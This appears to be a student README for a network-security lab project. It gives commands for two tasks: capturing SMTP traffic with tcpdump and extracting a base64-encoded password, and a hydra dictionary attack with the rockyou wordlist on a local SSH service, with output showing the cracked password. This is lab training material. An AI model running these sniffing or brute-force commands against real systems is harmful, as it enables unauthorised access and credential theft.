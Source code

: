 # Attack is the best defense

Network security Optional Project

## Tasks:

(0. ARP spoofing and sniffing unencrypted traffic)
sudo tcpdump port 587 -Aq > output.txt
cat output.txt | tr '\n' ' ' | sed 's/\s\s/\n/g' | rev | cut -d '.' -f1 | rev | tr -s '\n'
echo "bXlwYXNzd29yZDk4OTgh" | base64 -d > 0-sniffing
================================================================================

(1. Dictionary attack)
($) hydra -l sylvain -P ~/Downloads/rockyou.txt -t 64 ssh://127.0.0.1:2222
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
